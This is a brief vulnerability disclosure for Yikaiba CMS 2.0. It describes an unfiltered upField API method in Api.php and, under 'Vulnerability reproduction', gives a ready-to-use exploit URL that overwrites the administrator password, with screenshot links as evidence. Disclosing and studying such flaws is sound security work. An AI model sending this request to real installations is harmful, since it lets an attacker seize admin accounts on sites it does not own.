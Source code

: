 # **Vulnerability Introduction**

The upField method in version 2.0 of the Yikaiba CMS has a permission bypass vulnerability. Attackers can set the changed password through the field_value parameter, which can lead to the modification of the administrator password

Source code download link：[https://gitee.com/yihank/YiKaiBacmsV2.0](https://gitee.com/yihank/YiKaiBacmsV2.0)

https://github.com/xiaohai12138-1/picx-images-hosting/raw/master/壹凯巴cms/Snipaste_2025-10-28_13-53-49.esx1203zy.webp

# **Vulnerability Analysis**

vulnerability class file：application/api/Api.php

https://github.com/xiaohai12138-1/picx-images-hosting/raw/master/壹凯巴cms/Snipaste_2025-10-28_14-22-02.8hgvtu8apt.webp

The upField method accepts the following parameters:table、id_name、id_value、fileld_valueExecute the SQL statement, update the database using the setField method, and ensure that there are no filtering restrictions on the parameters received by table, id_name, id_value, and field_value

# **Vulnerability reproduction**

default password

https://github.com/xiaohai12138-1/picx-images-hosting/raw/master/壹凯巴cms/Snipaste_2025-10-28_14-22-51.5mo7o1t3ya.webp

exploit payload：[http://127.0.0.1/index.php/api/Api/upField?table=admin_user&id_name=user_id&id_value=1&field=password&field_value=aaddmmiinn112233](http://127.0.0.1/index.php/api/Api/upField?table=admin_user&id_name=user_id&id_value=1&field=password&field_value=aaddmmiinn112233)

https://github.com/xiaohai12138-1/picx-images-hosting/raw/master/壹凯巴cms/Snipaste_2025-10-28_14-23-37.b9b3c71aa.webp

Check the administrator password again

https://github.com/xiaohai12138-1/picx-images-hosting/raw/master/壹凯巴cms/Snipaste_2025-10-28_14-24-21.7axkl8je4j.webp

The administrator password has been successfully changed

